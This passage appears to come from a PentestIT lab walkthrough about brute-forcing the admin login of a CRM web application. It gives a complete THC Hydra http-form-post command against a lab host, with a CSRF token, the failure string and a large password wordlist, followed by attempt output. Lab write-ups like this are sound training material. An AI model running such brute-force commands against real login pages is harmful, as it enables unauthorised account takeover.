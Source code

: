 <img src="/assets/img/blog/pentestit-crm/crm-05.png"> 

* Save the login failed message 

<img src="/assets/img/blog/pentestit-crm/crm-06.png"> 

* Feed it all to THC Hydra 
* Wait

```console
root@EdgeOfNight:~# hydra 192.168.101.10 -s 88 http-form-post "/index.php?module=Users&action=Login:__vtrftk=sid%3Adddf3bab202e630587e33d5657f8e91e034314c2%2C1511606614&username=^USER^&password=^PASS^:Invalid username" -l admin -P /usr/share/wordlists/10_million_password_list_top_100000.txt -t 10 -V

[A lot more attempts before this]
[ATTEMPT] target 192.168.101.10 - login "admin" - pass "blue02" - 44346 of 100020 [child 2] (0/20)
[ATTEMPT] target 192.168.101.10 - login "admin" - pass "blotto" - 44347 of 100020 [child 3] (0/20)
[ATTEMPT] target 192.168.101.10 - login "admin" - pass "blimey" - 44348 of 100020 [child 9] (0/20)
[ATTEMPT] target 192.168.101.10 - login "admin" - pass "blah123" - 44349 of 100020 [child 4] (0/20)
[ATTEMPT] target 192.168.101.10 - login "admin" - pass "blackstar" - 44350 of 100020 [child 5] (0/20)
[ATTEMPT] target 192.168.101.10 - login "admin" - pass "blacksex" - 44351 of 100020 [child 7] (0/20)
[ATTEMPT] target 192.168.101.10 - login "admin" - pass "blackdic" - 44352 of 100020 [child 8] (0/20)
[ATTEMPT] target 192.168.101.10 - login "admin" - pass "blabl" - 44353 of 100020 [child 0] (0/20)
[ATTEMPT] target 192.168.101.10 - login "admin" - pass "bitem" - 44354 of 100020 [child 6] (0/20)
[ATTEMPT] target 192.168.101.10 - login "admin" - pass "Bitch1" - 44355 of 100020 [child 1] (0/20)
[ATTEMPT] target 192.168.101.10 - login "admin" - pass "bissjop" - 44356 of 100020 [child 2] (0/20)
[ATTEMPT] target 192.168.101.10 - login "admin" - pass "birthday3" - 44357 of 100020 [child 3] (0/20)
[ATTEMPT] target 192.168.101.10 - login "admin" - pass "birillo" - 44358 of 100020 [child 9] (0/20)
[ATTEMPT] target 192.168.101.10 - login "admin" - pass "bingbing" - 44359 of 100020 [child 4] (0/20)
[ATTEMPT] target 192.168.101.10 - login "admin" - pass "billybo" - 44360 of 100020 [child 7] (0/20)
```